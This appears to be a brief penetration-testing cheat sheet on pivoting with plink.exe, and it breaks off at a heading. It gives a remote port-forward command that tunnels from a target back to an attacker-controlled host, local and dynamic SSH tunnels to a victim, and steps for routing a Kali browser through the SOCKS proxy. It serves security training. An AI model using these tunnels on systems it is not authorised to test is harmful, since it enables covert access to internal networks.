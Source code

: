## It's a windows command line version of the PuTTY SSH client.

### cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

### Convert keys with puttygen: puttygen KEY -o KEY.ppk

## Local SSH Tunneling 

 - plink.exe -L PORT:TARGET_IP:TARGET_PORT USER@VICTIM_IP

### Then browse to: 127.0.0.1:PORT

## Dynamic SSH Tunneling

 - plink.exe -D PORT USER@VICTIM_IP (Execute on target)

### Then configure connections from Kali machine 

#### 1) Open browser, then Connection Settings

#### 2) Manual Proxy configuration

#### 3) SOCKS Host 127.0.0.1 port PORT

#### 4) SOCKSv5 button

#### 5) No proxy for: 127.0.0.1

#### 6) Browse to TARGET_IP

## Alternate method: Proxychains
